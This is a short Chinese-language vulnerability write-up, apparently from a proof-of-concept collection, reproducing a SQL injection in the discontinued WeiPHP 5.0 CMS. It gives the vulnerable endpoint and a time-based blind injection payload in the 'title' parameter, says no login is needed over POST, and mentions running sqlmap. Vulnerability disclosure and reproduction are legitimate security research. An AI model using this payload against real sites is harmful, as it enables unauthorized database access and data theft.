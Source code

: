 # WeiPHP5.0 SQL注入漏洞1

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

`WeiPHP5.0`是在2019年停止更新的一个系统，漏洞挺多的，跟着复现分析一下，这里复现一下 `WeiPHP5.0`的一处`SQL`注入漏洞

## 漏洞影响

`WeiPHP5.0`最新版

可以据此下载

https://www.weiphp.cn/doc/download_source_installation.html

## 漏洞复现

需要一个普通用户权限登录（好像也可以不用），然后访问链接并抓包

```php
/index.php/material/Material/material_lists
title=aa%27or%20sleep(5)%23
```

不登录时需要使用 `post` ，如果使用 `get`会直接跳转，然后进行延时操作，注意右下角

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650814616996-67b8d17c-1b34-4b28-aec0-86d0e6b724fc.png)

用 `sqlmap`跑

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650894325627-aae86b37-51e3-4a20-b61b-a5587045462a.png)

## 总结

关于这个权限问题，实际上不用任何用户登录也是可以注入的，但必须使用 `post`的时候才可以。由于后面还有其他的数据库操作语句，这里只好使用盲注。

## 参考链接

- https://igml.top/2019/10/30/weiphp5-0/



`github` 链接：`https://github.com/d5shenwu/vulPOC`



